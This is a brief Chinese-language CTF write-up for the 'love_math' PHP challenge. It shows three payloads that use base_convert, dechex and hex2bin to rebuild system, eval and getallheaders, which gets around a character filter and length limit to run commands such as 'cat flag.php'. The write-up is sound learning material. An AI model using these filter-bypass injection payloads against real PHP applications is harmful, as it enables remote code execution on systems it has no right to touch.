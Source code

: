# love_math

> base_convert(1751504350,10,36)可以把参数1从10进制转化成以36进制表示字符串，如(int)1751504350 --> system \
dechex(46)可以把10进制转化成以16进制表示的字符串，如(int)46 --> (str)2e \
hex2bin('2e')可以把16进制字符串转化成ascii字符，如(str)2e --> (str).


payload1:  
system('cat flag.php')     # 单引号'自动添加，但是这个payload太长，大于80，不能用。
```php
c=($pi=base_convert)(1751504350,10,36)(($pi(1438255411,14,34)(2763617420666c61672e70687027)
#                    system         (      hex2bin           (   'cat flag.php'  )  )
```

payload2:  
system('nl \*') -> system(hex2bin(dechex(1852579882)))
```php
c=($pi=base_convert)(1751504350,10,36)($pi(1438255411,14,34)(dechex(1852579882)))
#                    system         (     hex2bin                 (  nl *  )  )
```


pyaload3:  
getallheaders(){1}可以取得headers中名为1的元素，我们定义1这个元素，然后在header头部任意地方加上1: cat flag.php即可。
```php
c=($pi=base_convert)(696468,10,36)($pi(8768397090111664438,10,30)(){1})
#                    eval       ( getallheadehi --> getallheaders () )
#                    Windows中10进制到30-36进制转换都存在溢出，getallheaders会变成getallheadehi
```
![payload3](payload3.jpg)